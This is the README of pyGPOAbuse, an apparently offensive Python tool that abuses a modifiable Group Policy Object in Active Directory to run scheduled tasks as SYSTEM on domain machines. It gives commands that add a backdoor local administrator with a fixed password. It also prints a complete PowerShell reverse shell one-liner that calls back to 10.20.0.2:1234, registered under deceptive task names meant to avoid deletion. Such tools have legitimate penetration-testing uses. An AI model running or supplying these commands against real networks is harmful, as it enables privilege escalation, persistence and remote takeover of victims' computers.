 # pyGPOAbuse

## Description

Python **partial** implementation of [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) by[@pkb1s](https://twitter.com/pkb1s)

This tool can be used when a controlled account can modify an existing GPO that applies to one or more users & computers. It will create an **immediate scheduled task** as **SYSTEM** on the remote computer for computer GPO, or as logged in user for user GPO.

Default behavior adds a local administrator.

![Example](https://github.com/Hackndo/pygpoabuse/raw/master/assets/demo.gif)

## How to use

### Basic usage

Add **john** user to local administrators group (Password: **H4x00r123..**)

```bash
./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012"
``` 

### Advanced usage

Reverse shell example

```bash
./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012" \ 
    -powershell \ 
    -command "\$client = New-Object System.Net.Sockets.TCPClient('10.20.0.2',1234);\$stream = \$client.GetStream();[byte[]]\$bytes = 0..65535|%{0};while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){;\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);\$sendback = (iex \$data 2>&1 | Out-String );\$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> ';\$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2);\$stream.Write(\$sendbyte,0,\$sendbyte.Length);\$stream.Flush()};\$client.Close()" \ 
    -taskname "Completely Legit Task" \
    -description "Dis is legit, pliz no delete" \ 
    -user
``` 


## Credits

* [@pkb1s](https://twitter.com/pkb1s) for [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)
* [@airman604](https://twitter.com/airman604) for [schtask_now.py](https://github.com/airman604/schtask_now)
* [@SkelSec](https://twitter.com/skelsec) for [msldap](https://github.com/skelsec/msldap)

